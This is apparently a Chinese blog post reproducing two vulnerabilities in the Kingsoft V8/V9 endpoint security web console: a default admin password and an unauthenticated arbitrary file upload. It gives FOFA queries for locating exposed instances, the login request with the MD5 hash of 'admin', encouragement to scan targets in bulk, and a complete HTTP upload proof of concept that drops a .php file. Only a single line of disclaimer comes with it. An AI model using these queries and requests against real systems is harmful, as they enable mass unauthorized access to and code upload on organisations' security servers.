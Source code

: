 # 金山 V8 -V9 终端安全系统漏洞合集
一漏洞背景
-----

      最近一个金山的漏洞闹得沸沸扬扬 有人要我分享下，我特意测试了下确实存在两个漏洞，第一个大家都知道的默认密码漏洞。第二个是未授权的上传漏洞。

二、漏洞复现  
 

祭出fofa大法，fofa语法如下 

    app="猎鹰安全-金山V8+终端安全系统" #V8 和v9都有
    title="在线安装-V8+终端安全系统Web控制台" #只搜V8，v9不存在弱口令 因为安装后第一次
    进入系统需要更改密码

具体看自己怎么操作了 

![](%E9%87%91%E5%B1%B1%20V8%20-V9%20%E7%BB%88%E7%AB%AF%E5%AE%89%E5%85%A8%E7%B3%BB%E7%BB%9F%E6%BC%8F%E6%B4%9E%E5%90%88%E9%9B%86/640wx_fmt%3Dpng%26tp%3Dwebp%26wxfrom%3D5%26wx_lazy%3D1%26wx_co%3D1.png)

先来一波测试弱口令吧

默认密码进去抓包 

![](%E9%87%91%E5%B1%B1%20V8%20-V9%20%E7%BB%88%E7%AB%AF%E5%AE%89%E5%85%A8%E7%B3%BB%E7%BB%9F%E6%BC%8F%E6%B4%9E%E5%90%88%E9%9B%86/640wx_fmt%3Djpeg%26tp%3Dwebp%26wxfrom%3D5%26wx_lazy%3D1%26wx_co%3D1.webp)

得到具体参数，根据反复观察我们了解到post一段json格式的代码到特定的路径，若返回包状态码为200并且有关键字段userSession即表示存在弱口令

    POST /inter/ajax.php?cmd=
    get_user_login_cm{"get_user_login_cmd":{"name":"admin","password":"21232f297a57a5a743894a0e4a801fc3"}}

那么我们可以自己写一个批量的探测POC 当然也可以用burp直接批量跑也可以 看自己喜欢了

部分代码如下

![](%E9%87%91%E5%B1%B1%20V8%20-V9%20%E7%BB%88%E7%AB%AF%E5%AE%89%E5%85%A8%E7%B3%BB%E7%BB%9F%E6%BC%8F%E6%B4%9E%E5%90%88%E9%9B%86/1_640wx_fmt%3Dpng%26tp%3Dwebp%26wxfrom%3D5%26wx_lazy%3D1%26wx_co%3D1.png)

结果

![](%E9%87%91%E5%B1%B1%20V8%20-V9%20%E7%BB%88%E7%AB%AF%E5%AE%89%E5%85%A8%E7%B3%BB%E7%BB%9F%E6%BC%8F%E6%B4%9E%E5%90%88%E9%9B%86/2_640wx_fmt%3Dpng%26tp%3Dwebp%26wxfrom%3D5%26wx_lazy%3D1%26wx_co%3D1.png)

     这里就不在叙述了，最关键的来了  上传这块。很多人没有复现成功。我把我所成功的步骤分享下，其实也没什么。其实只是照着网络上流传的那样进行操作而已，（如果自己搭建可能不能成功）

    漏洞位置/tools/manage/upload.php

     在tools目录下的mange下存在一个upload.php。  
     该文件可导致任意文件上传 

上传存放位置为根目录下的uploaddir中

![](%E9%87%91%E5%B1%B1%20V8%20-V9%20%E7%BB%88%E7%AB%AF%E5%AE%89%E5%85%A8%E7%B3%BB%E7%BB%9F%E6%BC%8F%E6%B4%9E%E5%90%88%E9%9B%86/3_640wx_fmt%3Dpng%26tp%3Dwebp%26wxfrom%3D5%26wx_lazy%3D1%26wx_co%3D1.png)

最终上传路径为文件的存储路径为$uploaddir+上传文件名

![](%E9%87%91%E5%B1%B1%20V8%20-V9%20%E7%BB%88%E7%AB%AF%E5%AE%89%E5%85%A8%E7%B3%BB%E7%BB%9F%E6%BC%8F%E6%B4%9E%E5%90%88%E9%9B%86/4_640wx_fmt%3Dpng%26tp%3Dwebp%26wxfrom%3D5%26wx_lazy%3D1%26wx_co%3D1.png)

那么我们构建一个请求

poc如下

    POST /tools/manage/upload.php HTTP/1.1
    Host: ？
    Cache-Control: max-age=0
    Upgrade-Insecure-Requests: 1
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/88.0.4324.190 Safari/537.36
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
    Accept-Encoding: gzip, deflate
    Accept-Language: zh-CN,zh;q=0.9
    Cookie: PHPSESSID=ee6g13ou1lrgi6rj8cjpljr8f5; SCNum=1; GUID=49309453-E3DD-417A-9181-1028E68BE797; SCIP=192.168.20.31; topSC=1; kidtype=6766; hid=E2821D1E; sn=107000-011007-292753-261525
    Connection: close
    Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryCmFouLjmLS7D4iZr
    
    
    ------WebKitFormBoundaryCmFouLjmLS7D4iZr
    Content-Disposition: form-data; name="file"; filename="4bbc9855ce373d60847521589b287ced.php"
    Content-Type: image/jpeg
    
    <%out.print(1237);%>
    ------WebKitFormBoundaryCmFouLjmLS7D4iZr--

       年轻人要讲武德切勿做非法事情。我们学习的是思路 值得注意的是，感觉能打开几秒然后就没了，具体是什么原因暂时不知道 ，你在访问的时候可能就不行了。

![](%E9%87%91%E5%B1%B1%20V8%20-V9%20%E7%BB%88%E7%AB%AF%E5%AE%89%E5%85%A8%E7%B3%BB%E7%BB%9F%E6%BC%8F%E6%B4%9E%E5%90%88%E9%9B%86/5_640wx_fmt%3Dpng%26tp%3Dwebp%26wxfrom%3D5%26wx_lazy%3D1%26wx_co%3D1.png)

为了证明确实存在多进行一个步骤。不过依旧是如此。到底啥原因真不好说，是缓存导致的？还是什么，有知道的师傅可以留言 我会通过的，也好为大家解惑一下 感谢了

![](%E9%87%91%E5%B1%B1%20V8%20-V9%20%E7%BB%88%E7%AB%AF%E5%AE%89%E5%85%A8%E7%B3%BB%E7%BB%9F%E6%BC%8F%E6%B4%9E%E5%90%88%E9%9B%86/6_640wx_fmt%3Dpng%26tp%3Dwebp%26wxfrom%3D5%26wx_lazy%3D1%26wx_co%3D1.png)